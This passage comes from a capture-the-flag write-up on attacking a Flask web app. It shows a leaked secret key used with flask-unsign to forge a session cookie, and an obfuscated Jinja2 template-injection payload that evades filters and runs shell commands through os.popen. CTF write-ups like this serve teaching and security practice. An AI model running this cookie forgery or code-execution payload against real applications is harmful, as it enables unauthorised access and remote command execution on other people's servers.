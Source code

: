![ssti-2](/assets/img/nahamctf-obl-ssti-2.png)

We get the `SECRET_KEY`, which we can use to forge our own cookies using the [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) tool. This is a command line tool to fetch, decode, brute-force and craft session cookies of a Flask application.

```bash
$ flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
ey3aggI6MIX6.ZIyija.1gemB1NNu5gd6NigialakXabcga
```

Replace the cookie with the newly created one and the flag should be visible as a todo upon refreshing.

#### Unintended way
We can list the current directory via
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('id')|attr('read')()}}`

![ssti-ls](/assets/img/nahamctf-obl-ssti-ls.png)
